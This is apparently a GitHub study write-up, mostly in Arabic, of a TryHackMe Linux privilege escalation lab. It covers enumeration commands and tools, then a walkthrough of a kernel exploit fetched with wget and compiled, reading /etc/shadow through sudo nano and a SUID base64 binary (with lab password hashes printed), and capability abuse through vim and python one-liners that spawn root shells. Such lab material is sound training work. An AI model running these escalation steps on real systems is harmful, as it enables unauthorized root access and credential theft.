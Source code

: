 # Linux Privilege Escalation

![image](https://github.com/user-attachments/assets/7d5663ba-af28-421d-823d-67a0c93c8b7f)

<details>
  <summary>Enumeration</summary>


```
Username: karen

Password: Password1
```

  

## 1. Basic Info (معلومات عامة عن النظام)

| أمر        | وظيفته                                                    |
| ---------- | --------------------------------------------------------- |
| `whoami`   | يعرفك اسم المستخدم اللي انت عليه حاليًا                   |
| `id`       | يوضح الـ UID/GID والصلاحيات المرتبطة بيك                  |
| `hostname` | اسم الجهاز – أحيانًا مفيد لو الجهاز له اسم يدل على وظيفته |
| `uname -a` | إصدار الكرنل + المعمارية (x86\_64 أو غيره)                |

![image](https://github.com/user-attachments/assets/6363ac11-bf41-4ae1-9b7d-b9c42e67e1fc)


---

## 2. OS Version & Kernel

| أمر                   | وظيفته                                                                        |
| --------------------- | ----------------------------------------------------------------------------- |
| `cat /etc/issue`      | يطبع اسم وتفاصيل الـ Linux distro (مثلاً Ubuntu 20.04)                        |
| `cat /etc/os-release` | ملف رسمي فيه اسم النسخة + ID + Version                                        |
| `cat /proc/version`   | معلومات عن الكرنل + إذا كان GCC موجود (مهم لو عايز تـ compile local exploits) |



---

## 3. Environment

| أمر          | وظيفته                                                                                            |
| ------------ | ------------------------------------------------------------------------------------------------- |
| `env`        | يطبع كل المتغيرات البيئية، ممكن تلاقي فيها tokens أو مسارات غريبة                                 |
| `echo $PATH` | بيعرفك المسارات اللي النظام بيشوف فيها الملفات القابلة للتنفيذ – مهم جدًا لو فيه مسار قابل للحقن! |


![image](https://github.com/user-attachments/assets/aab5ff77-0ab8-4a6a-b7c5-db330f0e8a2f)

---

## 4. Users and Groups

| أمر               | وظيفته                                                                 |
| ----------------- | ---------------------------------------------------------------------- |
| `cat /etc/passwd` | يطبع كل المستخدمين الموجودين على النظام                                |
| `cat /etc/group`  | يشوف المجموعات اللي موجودة واللي ممكن تكون حساسة (مثلاً: docker، sudo) |

![image](https://github.com/user-attachments/assets/7b0e7204-dc60-4b97-981c-040c90fd6ccf)

![image](https://github.com/user-attachments/assets/ed5096cb-2831-45c1-a506-52bf1271e7f2)


---


## 5. Crontab / Scheduled Jobs

| أمر                 | وظيفته                                                                    |
| ------------------- | ------------------------------------------------------------------------- |
| `crontab -l`        | المهام المجدولة للمستخدم الحالي                                           |
| `ls -la /etc/cron*` | يشوف كل ملفات الـ crontab في النظام – أحيانًا تلاقي سكريبت بيتنفذ بـ root |
| `cat /etc/crontab`  | المهام المجدولة للنظام ككل – ممكن تديك وسيلة للاستغلال                    |



---

## 6. Processes & Services

| أمر                             | وظيفته                                                                   |
| ------------------------------- | ------------------------------------------------------------------------ |
| `ps aux`                        | يعرض كل العمليات الجارية – ممكن تلاقي برنامج بيشغله root                 |
| `top` أو `htop`                 | مشاهدة تفاعلية للعمليات                                                  |
| `netstat -tulnp` أو `ss -tulnp` | الخدمات اللي شغالة على البورتات – ممكن تلاقي حاجة داخليًا بس (localhost) |


![image](https://github.com/user-attachments/assets/16f4a91d-8133-481a-b79a-eb75ecbcb0f5)


![image](https://github.com/user-attachments/assets/e919e12d-1c12-405b-81cc-2d4a55b83133)
![image](https://github.com/user-attachments/assets/ec996032-2bf8-411f-8b80-590ed7b4e971)

![image](https://github.com/user-attachments/assets/03193a5c-21cf-4abe-b00a-616bb3e026f8)

![image](https://github.com/user-attachments/assets/a8f6abd4-62c9-4fe1-a78d-942b6929c021)

---

## 7. File System Permissions

| أمر                                     | وظيفته                                                                   |
| --------------------------------------- | ------------------------------------------------------------------------ |
| `find / -perm -4000 2>/dev/null`        | يبحث عن ملفات SUID – ملفات بتشتغل بصلاحيات المالك، ممكن تديك root access |
| `find / -perm -u=s -type f 2>/dev/null` | بديل للبحث عن SUID executables                                           |
| `find / -writable -type d 2>/dev/null`  | مجلدات قابلة للكتابة – ممكن تعمل فيها استغلال                            |


![image](https://github.com/user-attachments/assets/5c13b75e-a6c9-4e51-aa7d-0702d534d47c)

![image](https://github.com/user-attachments/assets/fde332e2-f181-44c0-b326-8f0c9150e57a)

![image](https://github.com/user-attachments/assets/4a89aa31-9be3-4e87-85df-0d1ec5ad4710)



---







## ✅ ملخص سريع :

| المحور           | الهدف                                         |
| ---------------- | --------------------------------------------- |
| OS & Kernel Info | تشوف لو في ثغرات على النسخة دي                |
| Environment      | PATH وقيم مهمة ممكن تسبب استغلال              |
| Users & Groups   | هل انت في مجموعة حساسة؟                       |
| Cron Jobs        | هل في سكريبت بيشتغل بوقت محدد ممكن تعدله؟     |
| Processes        | هل في برامج بتشتغل بصلاحيات أعلى؟             |
| SUID Files       | ممكن تستغل ملف بـ SUID عشان تاخد صلاحيات أعلى |






---
---





![image](https://github.com/user-attachments/assets/b8d06c67-4553-4990-ad30-9034da8eaf34)






  
</details>


















<details>
  <summary>Automated Enumeration Tools</summary>

# 🔐 Linux Privilege Escalation Enumeration Tools

قائمة بأهم الأدوات المفتوحة المصدر التي تُستخدم لتجميع معلومات النظام (Enumeration) من أجل اكتشاف فرص للترقية إلى صلاحيات أعلى (Root).

---

## 🥇 1. [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

- 🔎 من أقوى الأدوات الآلية لتجميع كل شيء تقريبًا.
- تبحث عن:
  - صلاحيات خاطئة في الملفات
  - SUID/SGID binaries
  - ملفات cron
  - كلمات مرور مكشوفة
  - خدمات مشغلة بصلاحيات عالية
- 🧠 تحتوي على خوارزميات للكشف عن misconfigurations والفرص الواضحة للاستغلال.
- ✅ مناسبة للأنظمة الحديثة والمتنوعة.

---

## 🥈 2. [LinEnum](https://github.com/rebootuser/LinEnum)

- 📜 سكربت Bash تقليدي لكن شامل.
- يقوم بجمع معلومات مثل:
  - بيانات النظام والمستخدم
  - cron jobs
  - network config
  - ملفات SUID/SGID
- 💡 أقل تفاعلية من LinPEAS، لكنه خفيف وسهل التشغيل.
- مفيد في حالات محدودة الموارد.

---

## 🥉 3. [LES - Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)

- 🔍 يحلل إصدار الكرنل ويقترح عليك Exploits معروفة.
- مش بيعمل Enumeration كامل، لكنه:
  - يقارن الكرنل الحالي بقاعدة بيانات فيها Exploits قديمة
  - يعطيك توصيات مباشرة
- مناسب بعد معرفة إصدار الكرنل من `uname -a`.

---

## 4. [Linux Smart Enumeration (LSE)](https://github.com/diego-treitos/linux-smart-enumeration)

- 🧠 أداة ذكية تعمل بـ 3 أوضاع:
  - Quick
  - Standard
  - Thorough
- تعرض النتائج بتنسيق واضح وسهل الفهم.
- مصممة لتكون "هادئة" – لا تترك أثر واضح في النظام.
- مفيدة للاختبارات الهادئة (Low OPSEC).

---

## 5. [Linux Priv Checker](https://github.com/linted/linuxprivchecker)

- 📘 سكربت Python قديم نسبيًا لكنه مفيد.
- يعطيك ملخص لبيئة التشغيل، الصلاحيات، الملفات الغريبة.
- مناسب مع الأنظمة القديمة أو أنظمة Python-only.

---

## 🧰 ملاحظات عامة:

| أداة | نوعها | الأفضل لـ |
|------|--------|------------|
| LinPEAS | شامل + ذكي | اكتشاف فرص متعددة + تحليل شامل |
| LinEnum | بسيط + مباشر | بيئة محدودة أو سكربت سريع |
| LES | اقتراح Exploits فقط | بعد معرفة kernel |
| LSE | ذكي + منظم | الاختبارات الدقيقة بدون ضوضاء |
| LinuxPrivChecker | خفيف + Python | بيئات قديمة أو محدودة |

---

> 💡 **نصيحة:** الأفضل دائمًا تبدأ بـ LinPEAS أو LSE، وبعد كده تستخدم LES لو فيه فرصة لاستغلال الكرنل.


  
</details>

























<details>
  <summary>Privilege Escalation: Kernel Exploits</summary>


# 🚀 Linux Privilege Escalation – Kernel Exploits

## 🎯 الهدف
استغلال ثغرات في نواة النظام (Kernel) للترقية من مستخدم عادي إلى root.

---

## 🧾 1. تحديد إصدار الكرنل

```bash
uname -r
```

مثال إخراج:
```
3.13.0-24-generic
```

---

## 🔍 2. البحث عن ثغرات مناسبة

### أدوات مساعدة:
- [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
- [Exploit-DB](https://www.exploit-db.com)
- `searchsploit` (لو مثبت عندك)

### مثال باستخدام LES:
```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

---

## 🛠️ 3. تجربة Exploit

### خطوات عامة:

1. تحميل الكود:
```bash
wget https://www.exploit-db.com/raw/37292 -O exploit.c
```

2. تجميع (Compile):
```bash
gcc exploit.c -o exploit
```

3. تشغيل:
```bash
./exploit
```

4. التحقق من الصلاحيات:
```bash
whoami
id
```

---

## ⚠️ ملاحظات مهمة

| نقطة | توضيح |
|------|--------|
| ❗ Compiler (مثل gcc) لازم يكون متاح | لو مش موجود، compile من جهازك وانقل الملف |
| ⚙️ بعض الثغرات مش بتشتغل دايمًا | جرب أكثر من exploit |
| 📛 Kernel Exploits خطيرة | ممكن تسبب system crash أو shell غير مستقرة |
| 🧠 استخدم Virtual Machine أو اختبار فقط | لتفادي تلف النظام |

---

## ✅ خطوات التلخيص

| الخطوة | الأداة |
|--------|--------|
| تحديد إصدار الكرنل | `uname -r` |
| اقتراح ثغرات | LES، Exploit-DB، searchsploit |
| تحميل واستغلال | `wget`, `gcc`, `./exploit` |
| التأكد من النجاح | `whoami`, `id` |

---

> 💡 **نصيحة:** دائمًا احتفظ بمجموعة Exploits جاهزة، واختبرها في بيئة آمنة فقط.





---
---

![image](https://github.com/user-attachments/assets/390d0b3e-a279-4b22-bfd2-df265e05b60e)

![image](https://github.com/user-attachments/assets/3945f3af-cdf2-4342-9412-7dc108059dd7)

```
cd /tmp
wget https://www.exploit-db.com/raw/37292 -O exploit.c
```

```
gcc exploit.c -o exploit
./exploit
```

![image](https://github.com/user-attachments/assets/30b5b5b8-31da-4537-b1cc-626f6dc91fca)


```
THM-28392872729920
```


  
</details>











<details>
  <summary>Privilege Escalation: Sudo</summary>



![image](https://github.com/user-attachments/assets/c9d1a10a-e3ae-4ac8-8640-3ca05260682b)


![image](https://github.com/user-attachments/assets/6fd0efaf-d307-409a-b924-24b7c0ac4202)


```
sudo nano /etc/shadow
```

![image](https://github.com/user-attachments/assets/1cba0943-d5e7-4d27-a43c-070ddf5c5eb1)






  
</details>






<details>
  <summary>Privilege Escalation: SUID</summary>


list files that have SUID or SGID 

```
find / -type f -perm -04000 -ls 2>/dev/null
```

```ruby
       66     40 -rwsr-xr-x   1 root     root        40152 Jan 27  2020 /snap/core/10185/bin/mount
       80     44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /snap/core/10185/bin/ping
       81     44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /snap/core/10185/bin/ping6
       98     40 -rwsr-xr-x   1 root     root        40128 Mar 25  2019 /snap/core/10185/bin/su
      116     27 -rwsr-xr-x   1 root     root        27608 Jan 27  2020 /snap/core/10185/bin/umount
     2610     71 -rwsr-xr-x   1 root     root        71824 Mar 25  2019 /snap/core/10185/usr/bin/chfn
     2612     40 -rwsr-xr-x   1 root     root        40432 Mar 25  2019 /snap/core/10185/usr/bin/chsh
     2689     74 -rwsr-xr-x   1 root     root        75304 Mar 25  2019 /snap/core/10185/usr/bin/gpasswd
     2781     39 -rwsr-xr-x   1 root     root        39904 Mar 25  2019 /snap/core/10185/usr/bin/newgrp
     2794     53 -rwsr-xr-x   1 root     root        54256 Mar 25  2019 /snap/core/10185/usr/bin/passwd
     2904    134 -rwsr-xr-x   1 root     root       136808 Jan 31  2020 /snap/core/10185/usr/bin/sudo
     3003     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 11  2020 /snap/core/10185/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     3375    419 -rwsr-xr-x   1 root     root              428240 May 26  2020 /snap/core/10185/usr/lib/openssh/ssh-keysign
     6437    109 -rwsr-xr-x   1 root     root              110792 Oct  8  2020 /snap/core/10185/usr/lib/snapd/snap-confine
     7615    386 -rwsr-xr--   1 root     dip               394984 Jul 23  2020 /snap/core/10185/usr/sbin/pppd
       56     43 -rwsr-xr-x   1 root     root               43088 Mar  5  2020 /snap/core18/1885/bin/mount
       65     63 -rwsr-xr-x   1 root     root               64424 Jun 28  2019 /snap/core18/1885/bin/ping
       81     44 -rwsr-xr-x   1 root     root               44664 Mar 22  2019 /snap/core18/1885/bin/su
       99     27 -rwsr-xr-x   1 root     root               26696 Mar  5  2020 /snap/core18/1885/bin/umount
     1698     75 -rwsr-xr-x   1 root     root               76496 Mar 22  2019 /snap/core18/1885/usr/bin/chfn
     1700     44 -rwsr-xr-x   1 root     root               44528 Mar 22  2019 /snap/core18/1885/usr/bin/chsh
     1752     75 -rwsr-xr-x   1 root     root               75824 Mar 22  2019 /snap/core18/1885/usr/bin/gpasswd
     1816     40 -rwsr-xr-x   1 root     root               40344 Mar 22  2019 /snap/core18/1885/usr/bin/newgrp
     1828     59 -rwsr-xr-x   1 root     root               59640 Mar 22  2019 /snap/core18/1885/usr/bin/passwd
     1919    146 -rwsr-xr-x   1 root     root              149080 Jan 31  2020 /snap/core18/1885/usr/bin/sudo
     2006     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 11  2020 /snap/core18/1885/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     2314    427 -rwsr-xr-x   1 root     root              436552 Mar  4  2019 /snap/core18/1885/usr/lib/openssh/ssh-keysign
     7477     52 -rwsr-xr--   1 root     messagebus         51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    13816    464 -rwsr-xr-x   1 root     root              473576 May 29  2020 /usr/lib/openssh/ssh-keysign
    13661     24 -rwsr-xr-x   1 root     root               22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
     7479     16 -rwsr-xr-x   1 root     root               14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
    13676    128 -rwsr-xr-x   1 root     root              130152 Oct  8  2020 /usr/lib/snapd/snap-confine
     1856     84 -rwsr-xr-x   1 root     root               85064 May 28  2020 /usr/bin/chfn
     2300     32 -rwsr-xr-x   1 root     root               31032 Aug 16  2019 /usr/bin/pkexec
     1816    164 -rwsr-xr-x   1 root     root              166056 Jul 15  2020 /usr/bin/sudo
     1634     40 -rwsr-xr-x   1 root     root               39144 Jul 21  2020 /usr/bin/umount
     1860     68 -rwsr-xr-x   1 root     root               68208 May 28  2020 /usr/bin/passwd
     1859     88 -rwsr-xr-x   1 root     root               88464 May 28  2020 /usr/bin/gpasswd
     1507     44 -rwsr-xr-x   1 root     root               44784 May 28  2020 /usr/bin/newgrp
     1857     52 -rwsr-xr-x   1 root     root               53040 May 28  2020 /usr/bin/chsh
     1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
     1674     68 -rwsr-xr-x   1 root     root               67816 Jul 21  2020 /usr/bin/su
     2028     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
     2166     56 -rwsr-sr-x   1 daemon   daemon             55560 Nov 12  2018 /usr/bin/at
     1633     56 -rwsr-xr-x   1 root     root               55528 Jul 21  2020 /usr/bin/mount
```


```css
     1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
```

![image](https://github.com/user-attachments/assets/bf1a3ca9-f1c0-48b9-aff8-beefdd03286a)


```
LFILE=/etc/shadow
```

now read the file:


```
/usr/bin/base64 "$LFILE"
```

``output``

```
cm9vdDoqOjE4NTYxOjA6OTk5OTk6Nzo6OgpkYWVtb246KjoxODU2MTowOjk5OTk5Ojc6OjoKYmlu
Oio6MTg1NjE6MDo5OTk5OTo3Ojo6CnN5czoqOjE4NTYxOjA6OTk5OTk6Nzo6OgpzeW5jOio6MTg1
NjE6MDo5OTk5OTo3Ojo6CmdhbWVzOio6MTg1NjE6MDo5OTk5OTo3Ojo6Cm1hbjoqOjE4NTYxOjA6
OTk5OTk6Nzo6OgpscDoqOjE4NTYxOjA6OTk5OTk6Nzo6OgptYWlsOio6MTg1NjE6MDo5OTk5OTo3
Ojo6Cm5ld3M6KjoxODU2MTowOjk5OTk5Ojc6OjoKdXVjcDoqOjE4NTYxOjA6OTk5OTk6Nzo6Ogpw
cm94eToqOjE4NTYxOjA6OTk5OTk6Nzo6Ogp3d3ctZGF0YToqOjE4NTYxOjA6OTk5OTk6Nzo6Ogpi
YWNrdXA6KjoxODU2MTowOjk5OTk5Ojc6OjoKbGlzdDoqOjE4NTYxOjA6OTk5OTk6Nzo6OgppcmM6
KjoxODU2MTowOjk5OTk5Ojc6OjoKZ25hdHM6KjoxODU2MTowOjk5OTk5Ojc6OjoKbm9ib2R5Oio6
MTg1NjE6MDo5OTk5OTo3Ojo6CnN5c3RlbWQtbmV0d29yazoqOjE4NTYxOjA6OTk5OTk6Nzo6Ogpz
eXN0ZW1kLXJlc29sdmU6KjoxODU2MTowOjk5OTk5Ojc6OjoKc3lzdGVtZC10aW1lc3luYzoqOjE4
NTYxOjA6OTk5OTk6Nzo6OgptZXNzYWdlYnVzOio6MTg1NjE6MDo5OTk5OTo3Ojo6CnN5c2xvZzoq
OjE4NTYxOjA6OTk5OTk6Nzo6OgpfYXB0Oio6MTg1NjE6MDo5OTk5OTo3Ojo6CnRzczoqOjE4NTYx
OjA6OTk5OTk6Nzo6Ogp1dWlkZDoqOjE4NTYxOjA6OTk5OTk6Nzo6Ogp0Y3BkdW1wOio6MTg1NjE6
MDo5OTk5OTo3Ojo6CnNzaGQ6KjoxODU2MTowOjk5OTk5Ojc6OjoKbGFuZHNjYXBlOio6MTg1NjE6
MDo5OTk5OTo3Ojo6CnBvbGxpbmF0ZToqOjE4NTYxOjA6OTk5OTk6Nzo6OgplYzItaW5zdGFuY2Ut
Y29ubmVjdDohOjE4NTYxOjA6OTk5OTk6Nzo6OgpzeXN0ZW1kLWNvcmVkdW1wOiEhOjE4Nzk2Ojo6
Ojo6CnVidW50dTohOjE4Nzk2OjA6OTk5OTk6Nzo6OgpnZXJyeWNvbndheTokNiR2Z3pneE0zeWJU
bEIud2tWJDQ4WURZN3FRbnA0cHVyT0oxOW14Zk1Pd0t0LkgyTGFXS1B1MHpLbFdLYVVNRzFON3dl
Vnpxb2JwNjVSeGxNSVovTmlyeGVaZE9KTUVPcDNvZkUuUlQvOjE4Nzk2OjA6OTk5OTk6Nzo6Ogp1
c2VyMjokNiRtNlZtektUYnpDRC8uSTEwJGNLT3ZaWjgvcnNZd0hkLnBFMDk5WlJ3TTY4NnAvRXAx
M2g3cEZNQkNHNHQ3SXVrUnFjL2ZYbEExZ0hYaDlGMkNid21ENEVwaTFXZ2guQ2wuVlYxbWIvOjE4
Nzk2OjA6OTk5OTk6Nzo6OgpseGQ6IToxODc5Njo6Ojo6OgprYXJlbjokNiRWamNyS3ovNlM4cmhW
NEk3JHlib1RiME1FeHFwTVhXMGhqRUpncUxXcy9qR1BKQTdOL2ZFb1BNdVlMWTF3MTZGd0w3RUND
YlFXSnFZTEdweS5ac2NuYTlHSUxDU2FOTEpkQlAxcDgvOjE4Nzk2OjA6OTk5OTk6Nzo6Ogo=
```

it return ``/etc/shadow`` but encoded 

```
/usr/bin/base64 "$LFILE" | base64 --decode
```

`output`

```
root:*:18561:0:99999:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
sys:*:18561:0:99999:7:::
sync:*:18561:0:99999:7:::
games:*:18561:0:99999:7:::
man:*:18561:0:99999:7:::
lp:*:18561:0:99999:7:::
mail:*:18561:0:99999:7:::
news:*:18561:0:99999:7:::
uucp:*:18561:0:99999:7:::
proxy:*:18561:0:99999:7:::
www-data:*:18561:0:99999:7:::
backup:*:18561:0:99999:7:::
list:*:18561:0:99999:7:::
irc:*:18561:0:99999:7:::
gnats:*:18561:0:99999:7:::
nobody:*:18561:0:99999:7:::
systemd-network:*:18561:0:99999:7:::
systemd-resolve:*:18561:0:99999:7:::
systemd-timesync:*:18561:0:99999:7:::
messagebus:*:18561:0:99999:7:::
syslog:*:18561:0:99999:7:::
_apt:*:18561:0:99999:7:::
tss:*:18561:0:99999:7:::
uuidd:*:18561:0:99999:7:::
tcpdump:*:18561:0:99999:7:::
sshd:*:18561:0:99999:7:::
landscape:*:18561:0:99999:7:::
pollinate:*:18561:0:99999:7:::
ec2-instance-connect:!:18561:0:99999:7:::
systemd-coredump:!!:18796::::::
ubuntu:!:18796:0:99999:7:::
gerryconway:$6$vgzgxM3ybTlB.wkV$48YDY7qQnp4purOJ19mxfMOwKt.H2LaWKPu0zKlWKaUMG1N7weVzqobp65RxlMIZ/NirxeZdOJMEOp3ofE.RT/:18796:0:99999:7:::
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
lxd:!:18796::::::
karen:$6$VjcrKz/6S8rhV4I7$yboTb0MExqpMXW0hjEJgqLWs/jGPJA7N/fEoPMuYLY1w16FwL7ECCbQWJqYLGpy.Zscna9GILCSaNLJdBP1p8/:18796:0:99999:7:::
```

``user2`` hash

```
$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/
```

![image](https://github.com/user-attachments/assets/20bd2e82-a055-4cb4-ba9c-70dad84c7076)

using same way to read ``flag3.txt``

```
LFILE=/home/ubuntu/flag3.txt
/usr/bin/base64 "$LFILE" | base64 --decode
```

![image](https://github.com/user-attachments/assets/284627cd-cc2d-483b-8f0d-f3c420f4b2a7)

```
THM-3847834
```

  
</details>






<details>
  <summary>Privilege Escalation: Capabilities</summary>


# 🔐 Linux Capabilities & Privilege Escalation

## 🧠 ما هي Linux Capabilities؟

في أنظمة لينكس الحديثة، يمكن منح **صلاحيات جزئية** للبرامج بدون الحاجة لتشغيلها بصلاحيات `root`.  
هذه الصلاحيات تُعرف باسم: **Capabilities**

مثال:
- `cap_net_raw` → يسمح بفتح raw sockets (مفيد لأدوات الشبكة)
- `cap_dac_read_search` → يسمح بقراءة ملفات بدون صلاحية قراءة

---

## 🎯 الهدف في الـ Privilege Escalation

نبحث عن برامج تمتلك Capabilities قوية يمكن استغلالها للوصول إلى صلاحيات `root`.

---

## 🔍 كيف نبحث عن الملفات ذات Capabilities؟

استخدم الأمر التالي من مستخدم عادي:

```bash
getcap -r / 2>/dev/null
```

- `-r /` → يبحث بشكل تكراري في كل النظام
- `2>/dev/null` → يتجاهل رسائل الخطأ

---

## 💡 ملاحظات هامة:

| النوع         | أداة الكشف        |
|--------------|------------------|
| SUID         | `find`           |
| Capabilities | `getcap`         |

> Capabilities لا تظهر في فحص الـ SUID، لذلك تحتاج لفحص خاص.

---

## 🧰 GTFObins — أداة ممتازة للاستغلال

موقع GTFObins يحتوي على قائمة ببرامج يمكن استغلالها:

🔗 [https://gtfobins.github.io](https://gtfobins.github.io)

ابحث عن أي برنامج (مثل `vim`, `perl`, `python`, `tar`) وتحقق إذا كان له استغلال تحت قسم **Capabilities**.

---

## 🧪 مثال عملي: استغلال vim بوجود Capability

### 1. تحقق من وجود capability على vim:

```bash
/usr/bin/vim = cap_setuid+ep
```

### 2. شغّل vim مع أمر تنفيذ داخلي:

```bash
vim -c ':!sh'
```

### 3. تحقق من الصلاحيات:

```bash
id
# uid=0(root) gid=0(root)
```

✅ مبروك! حصلت على shell بصلاحيات root.

---

## ✅ ملخص سريع

| العنصر              | الشرح |
|---------------------|-------|
| Capabilities         | صلاحيات جزئية تُمنح للبرامج بدلاً من root الكامل |
| getcap               | أداة لفحص البرامج ذات Capabilities |
| استغلال capabilities | إذا كان البرنامج يملك capability قوية، يمكن تشغيله والحصول على صلاحيات أعلى |
| GTFObins             | موقع يعرض طرق استغلال البرامج المعروفة |

---

## 🔚 الخطوة التالية

- شغّل:
```bash
getcap -r / 2>/dev/null
```

- ثم راجع النتائج وأرسل البرامج هنا لتحليل فرص التصعيد 🚀






## 🟥 Capabilities خطيرة جدًا:

| Capability            | خطورتها                                         |
| --------------------- | ----------------------------------------------- |
| `cap_setuid`          | تغيير UID (يعني ممكن يشغّل نفسه كـ root) 😈     |
| `cap_sys_admin`       | شبه صلاحيات root، كنز حقيقي 💣                  |
| `cap_dac_override`    | يتجاوز صلاحيات الملفات، ممكن يقرأ/يكتب أي ملف   |
| `cap_dac_read_search` | يقرأ أي ملف حتى لو مالكوش صلاحية عليه           |
| `cap_fowner`          | يقدر يعدل على ملفات مش بتاعته                   |
| `cap_net_raw`         | يستخدم RAW sockets، ممكن sniff أو spoof الشبكة  |
| `cap_sys_ptrace`      | ممكن يعمل Debug على عمليات تانية (وسرقة بيانات) |



## 🟡 Capabilities متوسطة الخطورة:


| Capability             | ملاحظات                                                |
| ---------------------- | ------------------------------------------------------ |
| `cap_net_bind_service` | يفتح بورت أقل من 1024 (ممكن استخدامه لتصعيد داخل خدمة) |
| `cap_chown`            | يغير مالك الملفات — مفيد في بعض السيناريوهات           |
| `cap_kill`             | يقتل أي عملية — ممكن يستخدم لإيقاف الحماية أو الخدمات  |


## 🧪 مثال عملي:

```
/usr/bin/python3.8 = cap_setuid+ep
```

ده معناه إن ``python3.8`` يقدر يغير الـ UID ويشتغل كـ root
لو شغلته كده:

```
python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

لو نجحت، هيجيلك شيل بصلاحيات root مباشرة 💥


## 🧠 مصادر تعرفك خطورة أي capability:
🔗 [man 7 capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html)

🔍 موقع GTFObins: ابحث عن اسم البرنامج وشوف لو له استغلال تحت Capabilities

🔐 أداة linpeas.sh ``→`` تعرضلك البرامج ``+`` capabilities ``+`` تقييم خطورتها



  
</details>


































